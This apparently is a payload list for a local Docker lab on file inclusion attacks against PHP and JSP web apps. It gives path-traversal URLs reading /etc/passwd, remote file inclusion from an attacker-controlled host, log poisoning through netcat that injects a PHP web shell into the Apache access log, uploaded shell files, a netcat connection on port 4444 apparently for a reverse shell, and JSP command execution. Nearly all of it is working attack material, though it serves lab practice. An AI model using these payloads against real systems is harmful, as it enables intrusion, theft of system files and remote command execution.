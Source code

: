 # Payloads

## PHP

- http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?

see `allow_url_include` in response

- http://127.0.0.1:8883/lfi.php?page=/etc/passwd

- By Experiment add ../ since before etc/passwd until:

http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd

- Get "access.log", changed here to "access_combined.log" because stdout is going out of docker:

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id

-- Check for uid in output

- Upload check.php from attacker-server src folder
load
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check

- upload shell.php
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

- http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls
- http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd
- http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/jsp/introduction

# Further Information

https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
